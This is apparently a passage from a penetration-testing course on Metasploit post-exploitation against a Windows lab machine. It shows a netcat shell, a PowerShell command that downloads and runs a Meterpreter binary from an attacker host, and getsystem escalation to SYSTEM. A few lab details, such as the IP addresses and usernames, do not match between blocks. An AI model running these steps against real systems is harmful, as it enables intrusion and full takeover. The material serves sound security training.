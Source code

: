 ```bash
kali@kali:~$ nc 192.168.50.223 4444
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.45.176:8000/met.exe -Outfile met.exe
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe

PS C:\Users\dave> .\met.exe
.\met.exe

PS C:\Users\dave>
```

Once the Windows binary is executed, Metasploit notifies us that it opened a new session.

Now that we have an active Meterpreter session on a Windows target we can start exploring post-exploitation commands and features.

The first post-exploitation command we use is idletime. It displays the time for which a user has been idle. After obtaining basic information about the current user and operating system, this should be one of our first commands as it indicates if the target machine is currently in use or not.

```bash
meterpreter > idletime
User has been idle for: 9 mins 53 secs
```

The output states that the user hasn't been interacting with the system for 9 minutes and 53 seconds, suggesting the user may have stepped away from their computer. If the result of the idletime command indicates that the user is away, we can take this as an opportunity to execute programs or commands which may display a command-line window such as CMD or PowerShell for a brief moment.

For several post-exploitation features, we need administrative privileges to execute them. Metasploit contains the command getsystem, which attempts to automatically elevate our permissions to NT AUTHORITY\SYSTEM. It uses various techniques using named pipe impersonation and token duplication. In the default settings, getsystem uses all available techniques (shown in the help menu) attempting to leverage SeImpersonatePrivilege1 and SeDebugPrivilege.2

Before we execute getsystem, let's start an interactive shell and confirm that our user has one of those two privileges assigned.

```bash
meterpreter > shell
...

C:\Users\luiza> whoami /priv
exit
meterpreter > getuid
Server username: ITWK01\luiza

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
